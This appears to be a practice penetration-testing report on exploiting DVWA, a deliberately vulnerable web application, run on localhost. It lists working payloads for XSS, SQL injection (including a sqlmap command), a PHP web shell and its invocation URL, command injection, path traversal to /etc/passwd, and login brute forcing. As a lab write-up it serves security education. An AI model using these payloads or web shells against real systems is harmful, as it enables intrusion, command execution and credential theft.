

# DVWA – Exploitation Report

This document contains a detailed explanation of all vulnerabilities exploited in DVWA, including the methodology, payloads, screenshots (to be added by you), and conclusions.  
All attacks were performed for educational and ethical VAPT practice.

---

# 1. Cross-Site Scripting (XSS)

**Type:**
- Reflected XSS
- Stored XSS

**Payload Used:**
```html
<script>alert('CyART');</script>
```

**Impact:**
- Execution of arbitrary JavaScript
- Ability to steal cookies
- Potential account takeover
- Ability to run browser-based payloads

**Observation:**
- The payload was executed successfully as a JavaScript pop-up.
- Application did not sanitize user input.


### 2. SQL Injection (SQLi)
Type:
- Boolean-based SQLi
- Error-based SQLi
- time-based SQLi
- UNION qyery

**Payload Used:**
```
' OR 1=1 --   # for manually check
```

**command for automated**
```
sqlmap -u "http://127.0.0.1:9988/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=qtldafq55m9kdks29lusb4u765; security=low" --batch
```

**Result:**
- Successfully bypassed login authentication.
- Extracted database-level errors.
- Confirmed backend uses MySQL.

**Impact:**
- Credential bypass
- Dumping sensitive data
- Full DB compromise possible




### 3. File Upload Vulnerability
**Description:**
DVWA allows file upload without proper file validation.

Payload Used (***PHP Reverse Shell / Command Shell***):
Example simple command shell:
```
<?php system($_GET['cmd']); ?>
<?=`$_GET[0]`?>
```

**Execution:**
- After uploading the file (shell.php), command execution was performed:
```
http://127.0.0.1:9988/hackable/uploads/test.php?0=whoami
```

**Impact:**
- Remote command execution
- Full system compromise


### 4. OS Command Injection
**Payload Used:**
```
ping; ls -la
```

**Observation:**
DVWA concatenates user input directly into system commands.

**Result:**
- Successfully executed system-level commands
- Returned OS user information

**Impact:**
- Server takeover
- Remote command execution
- Privilege escalation possible


### 5. Local File Inclusion (LFI)
**Payload Used:**
```
?page=../../../../etc/passwd
```

**Result:**
- Successfully read sensitive system files
- Gained access to /etc/passwd

**Impact:**
- System information disclosure
- Path traversal
- Ability to combine LFI + php wrapper for RCE
- **(Example: php://input)**


### 6. Brute Force Attack
**Tool Used:**
- Burp Suite Intruder
- Hydra (optional)

**Burp Intruder Payload:**
```
admin
password  
123456  
admin123  
...
```

**Result:**
- Successfully brute-forced DVWA login.
- Weak password policy found.

**Impact:**
- Unauthorized access
- Credential stuffing possible


### 8. Conclusion
**DVWA intentionally contains multiple vulnerabilities.**
All of the above vulnerabilities were successfully exploited including:
- JavaScript injection
- SQL query manipulation
- File upload bypass
- Remote OS command execution
- Directory traversal
- Brute-forcing login credentials

**These attacks demonstrate the importance of:**
- Input sanitization
- Strong authentication
- Proper file validation
- Restricting system commands
- Secure coding practices

### DVWA should never be deployed in a live environment.
